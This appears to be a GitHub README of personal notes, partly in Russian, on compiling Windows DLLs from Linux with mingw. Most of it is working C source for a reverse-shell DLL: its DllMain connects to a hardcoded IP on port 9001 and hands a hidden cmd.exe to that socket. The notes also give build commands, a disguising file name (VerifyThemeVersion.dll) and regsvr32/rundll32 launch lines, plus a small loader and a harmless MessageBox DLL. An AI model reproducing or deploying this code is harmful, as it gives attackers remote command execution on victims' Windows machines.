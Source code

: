 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}



                






















-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs


